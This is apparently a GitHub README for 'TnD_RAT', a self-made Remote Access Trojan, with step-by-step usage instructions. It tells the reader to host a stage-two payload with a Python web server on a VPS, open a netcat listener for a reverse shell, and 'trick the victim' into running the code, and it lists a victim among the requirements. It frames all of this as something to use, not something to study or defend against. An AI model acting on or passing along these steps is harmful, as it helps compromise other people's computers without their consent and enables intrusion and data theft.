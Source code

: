 # TnD_RAT
TnD_RAT is a basic Remote Access Trojan that I made from scratch. I've tested to obtain a reverse shell on a Windows machine using it.

## Requirements
* A virtual private server.
* A terminal to run ssh (preferably LINUX).
* A victim.
* My RAT code. 😉😉

## Usage
* Start the server.
* Connect to the server using the RSA id.
* Navigate to the directory where the RSA id is stored.
* Then run the following command to ssh into the server.
```bash 
  ssh -i id_rsa <username>@IP_Address
```
* After connecting to the server, start a python server in the folder containing stage2 payload.
bash 
python3 -m http.server

* Open another terminal.
* SSH into the server again using this terminal by running the above ssh command.
* Set up a listener by using the following command.
bash 
nc -nlvp <PORT NUMBER>

* Now, trick the victim into running our code on his device. (Make sure that the victim is connected to the internet.)

* Woila!!!  You got a reverse shell into the victim's device.
